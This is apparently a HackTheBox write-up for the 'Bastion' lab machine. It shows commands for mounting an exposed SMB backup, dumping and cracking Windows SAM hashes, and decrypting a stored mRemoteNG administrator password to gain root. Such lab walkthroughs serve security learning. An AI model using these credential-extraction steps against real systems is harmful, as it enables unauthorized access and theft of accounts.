





+++
title = "Bastion"
date = 2019-09-07
[taxonomies]
tags = ["hackthebox"]
+++

1. Initial scan show port 139 and 445 is open which means there might be an open SMB share available for mount.

	```shell
	smbclient //10.10.10.134/Backups
	```

	

2. There are two .vhd files that could be useful for us. Instead of downloading it on our system, we can mount it directory using guestmount. This part could take awhile as the connection is slow.

	```shell
	guestmount --add /mnt/test/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
	```

3. Now that we have the .vhd file mounted, we can proceed with using samdump and extract the SYSTEM and SAM hash and see if we can match the hash using hashkiller.

	

4. `hashkiller.co.uk` matches a hash result that shows `bureaulampje` is the password for `L4mpje` user.

	```shell
	*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                     
	*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                             
	L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 (bureaulampje):::
	```

5. Now if we `ssh` as the user, we should be able to retrieve the user flag

	```shell
	ssh L4mpje@10.10.10.134
	```

### Privilege Escalation

1. A software located in Program Files stuck out like a sore thumb:

	

2. Further investigation showed there is a hidden `mRemoteNG` folder that contains the configuration file:

	

3. Google search shows that you can decrypt the password by using this tool on github: [https://github.com/kmahyyg/mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt)

	```shell
	python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
	
	Password: thXLHM96BeKL0ER2
	```

	

4. Now that we have decrypted the password, we should be able to log into as administrator and obtain root flag.

	```shell
	ssh administrator@10.10.10.134
	```